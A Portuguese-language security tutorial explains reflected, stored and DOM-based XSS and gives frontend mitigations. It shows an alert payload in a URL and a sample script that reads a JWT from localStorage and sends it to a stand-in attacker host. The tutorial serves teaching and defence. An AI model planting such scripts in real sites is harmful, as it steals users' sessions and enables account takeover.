

# XSS e Ataques do Lado do Cliente (Frontend)

Enquanto a injeção SQL ataca o Banco de Dados (Backend), o **XSS (Cross-Site Scripting)** ataca os usuários do aplicativo (Frontend). O objetivo do XSS não é roubar os dados do servidor, mas roubar os dados do navegador do usuário (como seus Cookies de sessão ou seu Token JWT).

## 1. Entendendo o XSS

O XSS ocorre quando um aplicativo web permite que um usuário insira informações (por exemplo, em um comentário de um fórum) e, em seguida, o sistema exibe essas informações na tela de outros usuários sem "sanitizá-las" ou limpá-las.



## 2. Tipos de XSS

Existem três variantes principais que todo pentester procura:

### Reflected XSS (Refletido)
O ataque vai na URL. O invasor envia um link por e-mail:
`https://banco.com/buscar?q=<script>alert('Hack')</script>`
Se a página pegar o parâmetro `q` da URL e imprimi-lo diretamente no HTML ("Resultados para: `<script>...`), o seu navegador o executará instantaneamente.

### Stored XSS (Armazenado - O mais perigoso)
O script malicioso é salvo no banco de dados (Ex: Na descrição do perfil de um usuário ou em um Tweet). Qualquer um que visite o perfil será hackeado automaticamente, sem a necessidade de clicar em links estranhos.

### DOM-Based XSS
A vulnerabilidade ocorre completamente dentro do código JavaScript do Frontend (ex. React ou Vue). Isso geralmente acontece ao usar funções perigosas como `innerHTML` no Vanilla JS ou `dangerouslySetInnerHTML` no React com dados controlados pelo usuário.

## 3. Demonstração Prática (Roubo de Sessão)

Em vez de um inofensivo `alert('Hack')`, um atacante real injetaria isso em um comentário:

```html
<script>
  // Roubamos o Token JWT do LocalStorage
  const token = localStorage.getItem('access_token');
  // Nós o enviamos para o servidor do atacante silenciosamente em segundo plano
  fetch('https://servidor-do-hacker.com/robar?jwt=' + token);
</script>
```
Quando o Administrador do site entrar para rever os comentários, o seu navegador executará esse script e o invasor obterá acesso total como Administrador.

## 4. Mitigação no Frontend
* **React é seguro por padrão:** Se você usar `{variavel}` no React, a estrutura automaticamente escapa de caracteres perigosos (`<` torna-se `&lt;`). 
* **HttpOnly Cookies:** Nunca salve um token de acesso crítico no `LocalStorage` ou em cookies normais. Salve-o em um Cookie com as flags `HttpOnly` e `Secure`. Isso torna fisicamente impossível para o JavaScript (e, portanto, para o XSS) ler o cookie.

No **Nível Avançado**, daremos um passo mais profundo, analisando os ataques de Falsificação de Solicitações (CSRF/SSRF) e como enganar os servidores.
